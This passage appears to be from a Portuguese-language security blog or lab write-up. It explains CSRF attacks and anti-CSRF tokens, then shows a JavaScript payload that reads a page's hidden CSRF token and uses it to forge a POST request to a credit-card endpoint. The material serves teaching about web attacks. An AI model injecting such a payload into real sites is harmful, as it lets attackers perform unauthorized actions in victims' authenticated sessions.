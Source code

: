 É importante observar que existem algumas restrições ao uso de `setRequestHeader`. Por razões de segurança, você não pode definir certos cabeçalhos controlados pelo navegador, como `Referer` e `Host`. Além disso, chamar `setRequestHeader` após `send` resultará em um erro.

CSRF é a sigla para *Cross-Site Request Forgery*, uma forma de ataque malicioso que engana a vítima para que ela realize ações não intencionais em um site no qual está autenticada.

Um *token* CSRF é uma medida de segurança usada para prevenir esses tipos de ataques. Ele é um valor secreto único e aleatório gerado pelo servidor e enviado ao cliente. O cliente deve então enviar esse *token* de volta ao servidor com cada solicitação que modifica o estado do servidor (como uma solicitação POST).

Quando o servidor recebe uma solicitação que modifica o estado, ele verifica se o *token* CSRF enviado com a solicitação corresponde ao *token* que foi enviado ao cliente. Se os *tokens* não corresponderem, a solicitação é rejeitada.

A ideia por trás do *token* CSRF é que um atacante não terá acesso ao *token*, então não será capaz de forjar uma solicitação válida. Embora o atacante possa forjar a solicitação em si, ele não terá o token CSRF, então a solicitação será rejeitada pelo servidor.

#### Exploração

Se olharmos para o código HTML da aplicação podemos ver o valor do *token CSRF* em um campo *hidden* do formulário.

![Token](/img/posts/2023-06-21-beyond-the-alert-46.png)

Porém, não podemos pegar este valor manualmente, e inseri-lo no script malicioso, pois este *token* é gerado aleatoriamente para cada requisição feita na página.

Portanto, um ataque efetivo, precisa capturar o valor deste campo, antes de montar o *request* para o *endpoint* alvo. Por se tratar de um simples campo HTML, podemos extrair seu valor sem problemas com alguns métodos que conhecemos.

```html
<script>
var req = new XMLHttpRequest();
req.onreadystatechange = function() {
	if (req.readyState == 4 && req.status == 200) {
		document.getElementById("exploit").innerHTML = req.responseText;
	}
};
var token = document.getElementById("csrf_token").value;
req.open("POST", "/17/creditCard/", true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send("user=h41stur&csrf_token="+token);
</script>
```
